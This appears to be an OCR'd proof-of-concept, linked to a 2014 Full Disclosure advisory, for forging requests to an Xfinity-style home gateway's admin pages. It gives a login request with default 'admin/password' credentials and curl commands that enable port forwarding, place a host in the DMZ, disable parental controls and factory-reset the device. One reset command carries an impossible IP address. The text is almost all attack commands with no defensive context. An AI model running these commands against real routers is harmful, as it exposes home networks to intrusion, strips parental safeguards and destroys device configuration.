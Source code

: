 POST /goform/home_loggedout
Host: 10.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.0.0.1/
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cach

loginUsername=admin&loginPassword=password


------------------------------

GET http://10.0.0.1/connected_devices_computers.asp


Enable Port Forwarding:
curl -v http://10.0.0.1/goform/port_forwarding -d "forwarding=Enabled"

Add Port Forwarding:
curl -v http://10.0.0.1/goform/port_forwarding_add -d "storage_row=-1&common_services=other&other_service=Test Service&service_type=tcp_udp&server_ip_address_4=6&start_port=65534&end_port=65535"

Set a PC in the DMZ
curl http://10.0.0.1/goform/dmz -d "dmz=Enabled&dmz_host_value_4=200"

Disable parental control:
curl http://10.0.0.1/goform/managed_sites -d "EnableDisable=Disable"

Reset Factory Settings?
curl http://10.0.0.300/goform/restore_reboot -d "resetbt=rrbutton5"

http://sethsec.blogspot.com/2014/12/forging-my-way-into-xfinity-home.html
http://seclists.org/fulldisclosure/2014/Dec/57
http://seclists.org/fulldisclosure/2014/Dec/58
